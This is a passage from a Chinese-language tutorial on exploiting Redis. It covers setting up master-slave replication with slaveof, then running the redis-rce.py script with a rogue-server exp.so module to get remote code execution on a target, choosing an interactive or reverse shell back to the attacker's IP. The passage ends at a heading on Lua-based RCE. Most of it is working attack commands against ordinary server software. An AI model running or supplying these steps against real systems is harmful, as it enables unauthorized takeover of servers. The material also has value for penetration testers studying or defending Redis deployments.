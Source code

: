 然后通过 slaveof 可以设置主从状态

```plain
slaveog <主 redis ip><端口号>
```

[![](assets/1702372985-3ccfe56b53baaf09eabfd79e751a1e79.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/22.png)

这样一来数据就会自动同步了

当服务器开启主从同步后，利用脚本

```plain
git clone https://github.com/Ridter/redis-rce.git   //下载漏洞利用脚本
https://github.com/n0b0dyCN/redis-rogue-server //脚本需要调用这里的 exp.so 文件
```

将 exp.so 文件下载并放到和 redis-rce.py 同一目录下，执行命令：

```plain
python3 redis-rce.py -r <目标 ip> -L <自己 IP> -f exp.so
```

[![](assets/1702372985-39c4900964d216aeededce4d4a2646f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/23.png)

在此处：`i为交互式shell`，r 为反弹 shell，根据自己的需要选择就可以了

[![](assets/1702372985-86931b1f9a33ca5645189b2653a613be.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/24.png)

### [](#6-%E5%88%A9%E7%94%A8-redisLua-RCE "6.利用 redisLua RCE")6.利用 redisLua RCE[](#6-%E5%88%A9%E7%94%A8-redisLua-RCE)
